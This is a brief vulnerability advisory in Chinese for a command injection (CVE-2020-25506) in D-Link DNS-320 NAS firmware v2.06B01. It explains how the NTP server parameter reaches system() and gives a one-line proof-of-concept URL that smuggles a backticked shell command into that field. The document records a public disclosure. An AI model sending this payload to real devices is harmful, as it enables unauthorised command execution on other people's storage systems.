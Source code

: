 # D-LInk DNS320 FW v2.06B01 命令注入（CVE-2020-25506）

固件版本为v2.06B01（ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DNS-320/REVA/DNS-320_REVA_FIRMWARE_v2.06B01.zip）

'cgi_ntp_time'函数中存在命令注入。'v6'的值与“（sntp-r％s> / dev / null”）拼接，然后传递到系统中执行

PoC：

```
/cgi-bin/system_mgr.cgi?C1=ON&cmd=cgi_ntp_time&f_ntp_server=`id`
```

ref：

* https://nvd.nist.gov/vuln/detail/CVE-2020-25506
* https://gist.github.com/WinMin/6f63fd1ae95977e0e2d49bd4b5f00675